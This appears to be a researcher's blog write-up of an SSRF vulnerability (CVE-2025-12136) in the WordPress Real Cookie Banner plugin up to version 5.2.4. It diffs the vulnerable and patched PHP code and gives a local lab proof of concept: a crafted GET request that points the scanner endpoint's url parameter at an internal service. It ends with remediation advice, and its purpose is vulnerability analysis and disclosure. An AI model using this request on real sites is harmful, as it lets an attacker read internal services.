




<!--more-->

## CVE & Basic Info

The Real Cookie Banner: GDPR & ePrivacy Cookie Consent plugin for WordPress is vulnerable to **Server-Side Request Forgery (SSRF)** in all versions up to and including 5.2.4. The root cause is insufficient validation of the user-supplied URL at the REST API endpoint `/scanner/scan-without-login`. This allows authenticated attackers with administrator-level access to make web requests to arbitrary locations originating from the web application and can be used to query and modify information from internal services via the `url` parameter.

* **CVE ID**: [CVE-2025-12136](https://www.cve.org/CVERecord?id=CVE-2025-12136)
* **Vulnerability Type**: Server Side Request Forgery (SSRF)
* **Affected Versions**: <= 5.2.4
* **Patched Versions**: 5.2.5
* **CVSS severity**: Low (5.5)
* **Required Privilege**: Administrator
* **Product**: [WordPress Real Cookie Banner Plugin](https://wordpress.org/plugins/real-cookie-banner/advanced/)

## Requirements

* **Local WordPress & Debugging**: [Local WordPress and Debugging](https://w41bu1.github.io/posts/2025-08-21-wordpress-local-and-debugging/).
* **Plugin versions** - **Real Cookie Banner**: **5.2.4** (vulnerable) and **5.2.5** (patched).
* **Diff tool** - [**Meld**](https://meldmerge.org/) or any diff tool to inspect and compare differences between versions.

## Analysis

### Patch diff

```php {title="Scanner.php - v5.2.4" hl_lines=[3,7,8,12]}
public function routeScanWithoutLogin($request)
{
    $url = $request->get_param('url');
    $jobId = $request->get_param('jobId');
    if ($checker->start($url, \false)) {
        $requestArguments = $checker->getRequestArguments();
        $result = \wp_remote_get($url, ['redirection' => 0, 'cookies' => $requestArguments['cookies'], 'headers' => $requestArguments['headers'], 'timeout' => $requestArguments['timeout'], 'sslverify' => $requestArguments['sslverify']]);
        $status = \wp_remote_retrieve_response_code($result);
    
        $ok = $status >= 200 && $status < 300;
        $location = \wp_remote_retrieve_header($result, 'Location');
        return new WP_REST_Response(['status' => $status, 'statusText' => \wp_remote_retrieve_response_message($result), 'ok' => $ok, 'headers' => (object) \wp_remote_retrieve_headers($result), 'redirected' => !empty($location), 'responseUrl' => $location, 'body' => \wp_remote_retrieve_body($result)]);
    } else {
        return new WP_Error('rest_scan_without_login_error', 'Loopback request could not be started.');
    }
}
```

In the vulnerable version, `routeScanWithoutLogin()` takes the `url` parameter directly from `$request->get_param('url')` and uses it in `wp_remote_get()` without any validation or filtering => this leads to a **Server-Side Request Forgery (SSRF)** vulnerability.

The response packages the full result from `wp_remote_get($url)` into JSON:

* `status`, `statusText`: HTTP status code and message.
* `ok`: true if status is 2xx.
* `headers`: all response headers.
* `redirected`, `responseUrl`: redirect information if present.
* `body`: response body content from the URL.

=> The server effectively forwards the entire response from the internal URL back to the caller, causing data leakage when SSRF is exploited.

```php {title="Scanner.php - v5.2.5" hl_lines=[3,6,7,8,9,11,12,13,17,18,22]}
public function routeScanWithoutLogin($request)
{
    $url = $request->get_param('url');
    $jobId = $request->get_param('jobId');
    // Validate that the URL belongs to the jobs' domain to prevent SSRF attacks
    $jobDataUrl = $job->data->url;
    $parsed_url = \wp_parse_url($url);
    if (!$parsed_url || !isset($parsed_url['host'])) {
        return new WP_Error('rest_invalid_url', 'Invalid URL provided');
    }
    $current_domain = \wp_parse_url($jobDataUrl, \PHP_URL_HOST);
    if ($parsed_url['host'] !== $current_domain) {
        return new WP_Error('rest_invalid_domain', 'URL must belong to the jobs\' domain');
    }
    if ($checker->start($url, \false)) {
        $requestArguments = $checker->getRequestArguments();
        $result = \wp_remote_get($url, ['redirection' => 0, 'cookies' => $requestArguments['cookies'], 'headers' => $requestArguments['headers'], 'timeout' => $requestArguments['timeout'], 'sslverify' => $requestArguments['sslverify']]);
        $status = \wp_remote_retrieve_response_code($result);
    
        $ok = $status >= 200 && $status < 300;
        $location = \wp_remote_retrieve_header($result, 'Location');
        return new WP_REST_Response(['status' => $status, 'statusText' => \wp_remote_retrieve_response_message($result), 'ok' => $ok, 'headers' => (object) \wp_remote_retrieve_headers($result), 'redirected' => !empty($location), 'responseUrl' => $location, 'body' => \wp_remote_retrieve_body($result)]);
    } else {
        return new WP_Error('rest_scan_without_login_error', 'Loopback request could not be started.');
    }
}
```

The patch adds input validation measures to prevent arbitrary URLs:

1. Extract the job's configured URL

```php
$jobDataUrl = $job->data->url;
```

=> Obtain the domain that the job is allowed to operate on.

2. Parse and validate the structure of the user-supplied URL

```php
$parsed_url = \wp_parse_url($url);
if (!$parsed_url || !isset($parsed_url['host'])) {
    return new WP_Error('rest_invalid_url', 'Invalid URL provided');
}
```

=> Ensure the URL is valid and contains a `host`.

3. Compare the host with the job's domain

```php
$current_domain = \wp_parse_url($jobDataUrl, \PHP_URL_HOST);
if ($parsed_url['host'] !== $current_domain) {
    return new WP_Error('rest_invalid_domain', 'URL must belong to the jobs\' domain');
}
```

=> If the host differs, return an error instead of proceeding. This restricts requests to the same allowed domain and prevents SSRF to other systems.

### Vulnerable Code

`routeScanWithoutLogin()` is registered as the callback for the REST API at `/wp-json/<namespace>/scanner/scan-without-login`.

```php {title="Scanner.php" hl_lines=[6]}
register_rest_route(
    $namespace,
    '/scanner/scan-without-login',
    [
        'methods'             => 'GET',
        'callback'            => [$this, 'routeScanWithoutLogin'],
        'permission_callback' => [$this, 'permission_callback'],
        'args'                => [
            'url' => [
                'type'     => 'string',
                'required' => true,
            ],
            'jobId' => [
                'type'     => 'number',
                'required' => true,
            ],
        ],
    ]
);
```

The API uses **GET**, requires two parameters `url` (string) and `jobId` (number). Access is checked via `permission_callback()`:

```php
const MANAGE_MIN_CAPABILITY = 'manage_real_cookie_banner';

public function permission_callback()
{
    return \current_user_can(Core::MANAGE_MIN_CAPABILITY);
}
```

`manage_real_cookie_banner` is by default assigned to **administrator**, so the endpoint can only be invoked by users with that capability. The full endpoint path can be discovered by visiting `/wp-json` and searching for `scan-without-login`.



=> Official endpoint: `/wp-json/real-cookie-banner/v1/scanner/scan-without-login`


The `job` in `jobId` suggests a running job tracked by `jobId`. I placed a breakpoint in `routeScanWithoutLogin()` and tested the feature, routing all requests through the BurpSuite proxy. **Scanner** is the function that calls this API.



Observing BurpSuite's HTTP history tab shows the request to the API being captured and listed in HTTP History:




## Exploit

### Local Server

Create a simple local service with Python

```py
from flask import Flask, send_from_directory
import os

BASE_DIR = os.path.abspath(os.getcwd())
app = Flask(__name__)

@app.route('/metadata')
def test():
    return send_from_directory(BASE_DIR, 'metadata.json', as_attachment=True)

if __name__ == '__main__':
    app.run(host='0.0.0.0', port=8001, debug=True)
```

```json {title="metadata.json"}
{
  "metadata": "Internal service data"
}
```

### Proof of Concept (PoC)

1. Use the scanner feature and route requests through BurpSuite with an Administrator user.

2. Capture the request to `/wp-json/real-cookie-banner/v1/scanner/scan-without-login`.

3. Modify the URL and forward:

```http
GET /wp-json/real-cookie-banner/v1/scanner/scan-without-login?_v=1761578838&_locale=user&url=http://localhost:8001/metadata&jobId=65 HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:144.0) Gecko/20100101 Firefox/144.0
Accept: application/json, */*;q=0.1
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: http://localhost/wp-admin/admin.php?page=real-cookie-banner-component
X-WP-Nonce: 83df92a708
Connection: keep-alive
Cookie: wp-settings-time-2=1761542750; wordpress_test_cookie=WP%20Cookie%20check; _lscache_vary=0f9122a3a07756eeee3b4199f2c151b1; wordpress_logged_in_86a9106ae65537651a8e456835b316ab=admin%7C1761754193%7CRyskfS8SL8JqeXoDqo9gGiN5eiEbjBx5EZ73dRIjmyt%7C19f099619d5257dcc6f5828078065f2e92c2945b71c28fea0d11612e83c42ec6; wp-settings-time-1=1761581951
```

**Result**:



## Conclusion

Versions **≤ 5.2.4** of **Real Cookie Banner** contain an **SSRF** vulnerability at the endpoint `/wp-json/real-cookie-banner/v1/scanner/scan-without-login`. `routeScanWithoutLogin()` accepts a `url` from the client, performs `wp_remote_get()`, and returns the raw `body`/`headers`, allowing an attacker with Administrator privileges (or a compromised admin session) to read and probe internal resources. Version **5.2.5** introduced host/domain checks (comparing the request host with the job's domain) to block out-of-scope URLs and reduce risk; switching to `wp_safe_remote_get()` and adding additional validations is recommended for stronger protection.

## Key takeaways

* Update the plugin to **5.2.5+** immediately.
* Do not trust client-supplied URLs — validate/normalize and apply a domain allowlist before fetching.
* Block requests to private/loopback IP ranges after DNS resolution (127.0.0.0/8, 10.0.0.0/8, 192.168.0.0/16, fc00::/7, etc.).
* Avoid forwarding internal credentials/cookies and avoid returning raw headers/body unless necessary.
* Use `wp_safe_remote_get()` with checks for redirects, timeouts, and SSL; log and limit body size before returning to the client.

## References

[SSRF (Server Side Request Forgery) — Hacktrick](https://book.hacktricks.wiki/en/pentesting-web/ssrf-server-side-request-forgery/index.html)

[ WordPress Real Cookie Banner Plugin <= 5.2.4 is vulnerable to Server Side Request Forgery (SSRF) ](https://patchstack.com/database/wordpress/plugin/real-cookie-banner/vulnerability/wordpress-real-cookie-banner-gdpr-eprivacy-cookie-consent-plugin-5-2-4-authenticated-admin-server-side-request-forgery-via-scan-without-login-endpoint-vulnerability)
